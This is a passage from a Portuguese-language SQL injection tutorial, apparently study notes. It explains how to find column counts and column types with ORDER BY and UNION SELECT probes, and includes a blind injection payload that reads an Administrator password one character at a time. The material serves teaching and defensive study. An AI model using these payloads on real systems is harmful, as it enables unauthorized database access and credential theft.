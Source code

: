 ### Dicas para esse tipo de ataque

#### Descobrir número de colunas da tabela

Para descobrir o número de colunas presentes na tabela, podemos usar o `ORDER BY` + `índice da coluna na tabela`. Esse comando ordena as respostas \(por ordem alfabética por exemplo\) de acordo com certa coluna. Para descobrir a quantidade de colunas da tabela, basta ir aumentando o índice da coluna no `ORDER BY`. Quando o servidor responder com um erro para o `ORDER BY X`, sabemos que a coluna X não existe e, portanto, a tabela tem X-1 colunas.

```sql
'       blabla' ORDER BY 1 --
'       blabla' ORDER BY 2 --
'       blabla' ORDER BY 3 --
```

Se o erro for enviado ao cliente de forma explícita, ele deve ser algo como `"The ORDER BY position number 3 is out of range of the number of items in the select list."`

Outra opção para descobrir o número de colunas é utilizar ORDER BY passando vários NULL como "colunas" de ordenação:

```sql
'       blabla' ORDER BY NULL, NULL -- tabela tem pelo menos 2 colunas se não retornar erro
'       blabla' ORDER BY NULL, NULL, NULL -- tabela tem pelo menos 3 colunas se não retornar erro
```

#### Descobrir tipo de dado de certa coluna

Sabendo o número de colunas da tabela é possível descobrir o tipo de dado em cada coluna. Para isso, é necessário realizar testes com _queries_ do tipo:

```sql
'       blabla' UNION SELECT 'a',NULL,NULL,NULL --
'       blabla' UNION SELECT NULL,'a',NULL,NULL --
'       blabla' UNION SELECT NULL,NULL,'a',NULL --
'       blabla' UNION SELECT NULL,NULL,NULL,'a'--
```

Ao submeter, por exemplo, `' UNION SELECT 'a',NULL,NULL,NULL --`, testaremos se a 1ª coluna contém strings, pois estamos fazendo um UNION, ou seja, o dado da 1ª coluna do 1º SELECT deve ser do mesmo tipo que o da 1ª coluna do 2º SELECT \(o mesmo vale para as outras colunas\). Caso o servidor responda com um erro \(como `Conversion failed when converting the varchar value 'a' to data type int.`\), sabemos que a primeira coluna não contém strings \(varchar\). Do contrário, se a _query_ for um sucesso, a primeira coluna armazena strings.

`NULL` pode ser convertido para qualquer tipo, portanto não haverá problemas relacionados a tipos de dado incompatíveis ao utilizá-lo num UNION.

## [Blind SQL Injection](https://portswigger.net/web-security/sql-injection/blind)

Já escrevi muita coisa para essa introdução, agora é com vocês: pesquisem!

* Checar o começo de uma senha com `SUBSTRING`: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '` + `pwn' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--` -&gt; `TRUE` =&gt; 1ª letra da senha é maior que 'm'\(usar SUBSTR ou SUBSTRING - depende do DB\)
* Outra possibilidade de teste é: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '` + `pwn' UNION SELECT 'a' WHERE 1=1--`
